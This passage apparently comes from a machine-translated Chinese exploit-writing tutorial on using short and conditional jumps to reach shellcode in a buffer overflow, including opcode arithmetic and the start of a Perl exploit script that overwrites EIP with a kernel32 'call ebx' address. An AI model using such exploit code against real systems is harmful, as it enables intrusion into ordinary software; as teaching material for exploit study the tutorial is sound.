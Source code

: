 ### 4.近/短和有条件的跳转

通过在我们的漏洞中引入无条件和有条件的跳转，我们可以跳转到缓冲区的不同部分来到达我们的shellcode。

一个near jump是跳转到位于在当前代码段内的CPU指令。 

short jump是一种类型的近跳转了在范围限于从-128到+ 127（从当前EIP）的。

要执行无条件短跳转，只需使用操作码\ xeb \ xXX，其中XX是要跳转的字节数。

正向（向前）短跳转对于00到7F的XX有可能的十六进制值，对于从80到FF的负跳转（反向）短跳转有可能。换句话说，20字节的前向跳转是\ xeb \ x14并且向后跳转20个字节是\ xeb \ xea。

向前跳跃很容易理解：14十六进制= 20十进制。
但是后退跳转 - EA十六进制= 234十进制。

那是对的？对于向后跳跃，你必须做一些简单的数学。下面是我如何得到\ xea ...

首先，采取你想要的后跳时间，并添加2.为什么？因为跳转的字节数始终始于跳转后的字节。由于这是一个向后跳转，因此浪费了2个额外的字节跳回自身。所以如果我们想要向后跳20个字节，我们应该确实跳过22.现在执行以下操作：

    Convert 22 to binary:	0001 0110
    Subtract 1				0001 0101
    Invert					1110 1010 = 0xEA

如果你想读更多关于跳跃和计算负向/反向跳转后面的2的补充数学，看看[这个页面](http://thestarman.narod.ru/asm/2bytejumps.htm)。让我们尝试几个简短的跳转。为此，我们将更新我们的原始代码，用正向短跳转代替add ebx跳转代码。在下面的代码中请注意，我将缓冲区的$垃圾部分更改为所有NOP，并将跳转代码放在$ junk之后。由于EBX指向我们shellcode的开头，所以当我们执行CALL EBX指令（$ eip）时，它会将我们引入NOP中，这会跳到短跳转，跳过EIP并进入我们的NOP / shellcode。

如下图所示：

![](../Images/WED/4.41.png)

以下是更新的代码：

    #!/usr/bin/perl
    my $buffsize = 10000; # set consistent buffer size
    my $jmp = "\xeb\x4"; # 4 bytes short jump to hop over EIP and into nops/shellcode
    my $junk = "\x90" x (260 - length($jmp)); # nops to slide into $jmp; offset to eip overwrite at 260
    my $eip = pack('V',0x7c810395); # call ebx [kernel32.dll] which points to start of buffer and our jump code
    # no usable application module found
    my $nops = "\x90" x 50;
     